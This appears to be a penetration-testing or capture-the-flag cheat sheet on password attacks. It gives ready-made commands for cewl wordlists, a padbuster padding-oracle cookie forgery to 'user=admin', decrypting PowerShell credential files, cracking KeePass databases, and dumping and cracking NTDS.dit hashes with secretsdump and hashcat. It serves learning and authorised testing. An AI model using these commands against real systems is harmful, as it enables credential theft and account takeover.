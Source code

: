 # Passwords and hashes
Ways to break password hashes, or just methods to make the brute-force easier.

# Adding salt (as a normal string) to a password file
This is if the password has no salt shown, because it has been concatenated when encrypting, therefore the salt has to be added to the dictionary, line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```


# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden somewhere in the website.

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
```bash
# Decrypt
padbuster <url> "cookie" 8 -encoding 0 -cookies "cookiename=cookie"

# Encrypt new cookie
padbuster <url> "old_cookie" 8 -encoding 0 -cookies "auth=old_cookie" -plaintext "user=admin"
```

### Reference
- [https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)


# Powershell credentials file
The command below can be used to decrypt a given credentials file. **(has to be logged in as the user)**
```powershell
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```


# KeePass (jenkins) & kdbx files
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with hashcat, this will give you the **master password**    
    ```bash
    hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
    ```
3. Use `kpcli` to extract passwords: 
    ```bash
    kpcli --kdb <file>.kdbx
    ```
4. Run, `find .` in `kpcl`i will list all of the passwords
5. `show -f [num]` will print a password based on the number that was input 

# .dit and .bin files
**.dit** files contain password hashes     
**.bin** files contain information about the system

## Dump hashes
Assuming these files are on your local machine already.  
- Dump hashes  
    ```bash
    secretsdump.py -ntds <.dit file> -system <.bin file> LOCAL
    ```
- Crack the hashes
    ```bash
    # MD5
    hashcat -m 0 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    # NTLM
    hashcat -m 1000 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    ```

### Troubleshooting
#### If hashcat cannot crack the hashes
Try [crackstation](https://crackstation.net/), the hash might already be in their system.

### References
- [https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes](https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes)
- [https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html)